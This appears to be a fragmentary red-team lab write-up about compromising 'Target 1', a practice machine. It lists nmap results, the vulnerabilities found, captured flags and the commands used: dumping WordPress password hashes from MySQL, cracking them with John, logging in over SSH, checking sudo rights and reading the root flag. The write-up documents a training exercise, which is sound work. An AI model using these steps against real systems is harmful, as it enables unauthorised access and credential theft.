




Nmap scan results for each machine reveal the below services and OS details:
$ nmap scan: nmap -sV 192.168.1.110

This scan identifies the services below as potential points of entry:
Target 1
The following vulnerabilities were identified on each target:
Target 1
wpscan user enumeration
SSH with Password
Python can run with sudo
Database credentials in plain text
CVE-2017-3167
CVE-2017-7494
-Initial scans to find vulnerabilities:
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
- Target 1
flag1.txt: b9bbcb33e11b80be759c4e844862482d

flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
Exploit Used
Commands run:

flag3.txt: afc01ab56b50591e7dccf93122770cd2
flag4.txt: 715dea6c055b9fe3337544932f2941ce
Exploit Used
Commands run:
 


flag4.txt(As Root): 715dea6c055b9fe3337544932f2941ce
Exploit Used
Exploit: -Privilege escalation using python
Commands run:
-mysql> select * from wp_users;

-root@kali$> echo “(stevens password hash)” > hashes.txt
-john hashes.txt

-ssh steven@192.168.1.110
-sudo -l

-cd /root
-ls
-cat flag4.txt